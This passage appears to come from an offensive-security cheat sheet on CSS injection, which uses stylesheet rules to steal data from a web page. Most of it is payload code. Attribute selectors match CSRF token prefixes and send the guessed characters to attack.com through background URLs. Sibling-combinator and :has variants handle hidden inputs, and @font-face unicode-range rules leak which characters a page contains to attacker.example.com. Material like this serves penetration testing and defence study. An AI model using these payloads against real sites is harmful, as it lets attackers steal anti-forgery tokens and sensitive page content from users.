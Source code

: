 ```css
/mypage?color=red;}} input[id=csrftoken][value^=dea] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=deb] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=dec] {{ background: url(https://attack.com/?data=c); (False)
...
```

## # CSS Combinators

If the csrftoken name input is of type hidden, the previous payload may not work. Because the background won't be loaded. However, you can bypass this impediment by loading the background of the other element using <mark style="color:red;">CSS combinators</mark>,<mark style="color:red;">`:has`</mark> selector, or <mark style="color:red;">`:empty`</mark> selector etc..

```css
input[name=csrf][value^=a] ~ * {
   background: url(https://attack.com/?data={});
}
```

{% embed url="https://developer.mozilla.org/en-US/docs/Web/CSS/Subsequent-sibling_combinator" %}

## # :has Selector

:has selector does not support in Firefox browser.

```css
body:has(input[name=csrf][value^=a]) {
   background: url(https://attack.com/?data={});
}
```

{% embed url="https://developer.mozilla.org/en-US/docs/Web/CSS/:has" %}

## # @font-face / unicode-range

We can only know characters included in #sensitive-information. The order of characters is not guaranteed. &#x20;

{% embed url="https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html" %}

```css
<style>
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?A); /* fetched */
 unicode-range:U+0041;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?B); /* fetched too */
 unicode-range:U+0042;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?C); /* not fetched */
 unicode-range:U+0043;
}

...

@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?Z); /* not fetched */
```